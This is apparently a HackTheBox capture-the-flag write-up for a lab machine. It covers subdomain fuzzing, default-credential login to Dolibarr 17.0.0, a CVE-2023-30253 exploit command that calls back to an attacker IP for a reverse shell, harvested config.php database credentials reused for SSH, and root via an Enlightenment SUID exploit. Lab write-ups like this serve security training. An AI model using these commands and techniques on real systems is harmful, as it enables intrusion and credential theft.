

## Reconnaissance

### nmap 


### WebSite 


### Gobuster 


### Fuzz subdomain 

> With following command 

```
ffuf -u 'http://board.htb' -H 'Host:FUZZ.board.htb' -w /usr/share/seclists/Discovery/DNS/subdomains.-top1million-5000.txt -fs 15848
```


> Find subdomain - crm.board.htb

### Subdomain Enumerate 

> Access the subdomain 
> It's a login page for Dolibarr
> Disclose the version in login page - Dolibarr 17.0.0


> Try to login with admin / admin  --- Bingo


### Search Exploit code 


> With researching, it's easy to know the exploit on Dolibarr 17.0.0 need to authentication 

- [(GITHUB)POC exploit for Dolibarr <= 17.0.0 (CVE-2023-30253)](https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253)


- [(GITHUB)Dolibarr-17.0.0-Exploit-CVE-2023-30253](https://github.com/dollarboysushil/Dolibarr-17.0.0-Exploit-CVE-2023-30253)


## Exploit 

> With above research, I know I have to login first
> And I also can login with weak creadential (admin / admin)


> Then clone the exploit code and start the attack 

```
python exploit.py http://crm.board.htb admin admin 10.10.14.218 1337 
```


> It's easy to get www-data user by executing the payload 


> With user: www-data
> I tried to launch the linpeas to enumerate the information 
> But I can't find any useful information from the result ... 


> Then I started to enumerate the web directory
> And I found some credential which locate in config.php file 

```
$dolibarr_main_url_root='http://crm.board.htb';
$dolibarr_main_document_root='/var/www/html/crm.board.htb/htdocs';
$dolibarr_main_url_root_alt='/custom';
$dolibarr_main_document_root_alt='/var/www/html/crm.board.htb/htdocs/custom';
$dolibarr_main_data_root='/var/www/html/crm.board.htb/documents';
$dolibarr_main_db_host='localhost';
$dolibarr_main_db_port='3306';
$dolibarr_main_db_name='dolibarr';
$dolibarr_main_db_prefix='llx_';
$dolibarr_main_db_user='dolibarrowner';
$dolibarr_main_db_pass='serverfun2$2023!!';
$dolibarr_main_db_type='mysqli';
$dolibarr_main_db_character_set='utf8';
$dolibarr_main_db_collation='utf8_unicode_ci';
// Authentication settings
$dolibarr_main_authentication='dolibarr';
```


> Now, I know the crdential and the potential user is **larissa**
> Credential 

```
dolibarrowner / serverfun2$2023!!
```

### Login to DB 

> Try to login to DB with the credential I found 

```
mysql -h localhost -u dolibarrowner -p
```


> But I didn't find anything useful information 

### Login to SSH 

> With this credential,  I tried to login target with the potential user - larissa

```
ssh larissa@10.10.11.11
```


> Get user flag


## Privilege Escalation 

> Tried to check sudo permission
> Obviously, the current user doesn't have permission to run sudo 


> Run linpeas again 


> Find unknown binary file which has SUID permission set


### Search PE exploit code 

> Using 'enlightenment' as keyword to search exploit code 



> Check exploitDB 

- [(ExploitDB)Enlightenment v0.25.3 - Privilege escalation](https://www.exploit-db.com/exploits/51180)


> Searchsploit can find same content


> But exploitDB only provide a text file 
> I have to create the exploit shell script by myself
> I tried to create it, but it failed to execute... 


> Then I start to search and download from Github

- [(GITHUB)CVE-2022-37706-LPE-exploit](https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit/tree/main)


- [CVE-2023-30253](https://nvd.nist.gov/vuln/detail/CVE-2023-30253)


> Using the following one can PE successfully

- [(GITHUB)CVE-2022-37706-LPE-exploit](https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit/tree/main)


> Root flag 


## Reference 

### CVE-2023-30253

- [(GITHUB)POC exploit for Dolibarr <= 17.0.0 (CVE-2023-30253)](https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253)
- [(GITHUB)Dolibarr-17.0.0-Exploit-CVE-2023-30253](https://github.com/dollarboysushil/Dolibarr-17.0.0-Exploit-CVE-2023-30253)
- [CVE-2023-30253](https://nvd.nist.gov/vuln/detail/CVE-2023-30253)


### CVE-2022-37706

- [(GITHUB)CVE-2022-37706-LPE-exploit](https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit/tree/main)
- [(ExploitDB)Enlightenment v0.25.3 - Privilege escalation](https://www.exploit-db.com/exploits/51180)
- [(GITHUB)CVE-2022-37706-Enlightenment-0.25.3-LPE](https://github.com/nu11secur1ty/CVE-mitre/tree/main/CVE-2022-37706)
### Technique for shell 

- [Upgrading Simple Shells to Fully Interactive TTYs](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)

###### tags: `HackTheBox` `CVE-2023-30253` `Dolibarr 17.0.0` `CVE-2022-37706` `Enlightenment 0.25.3`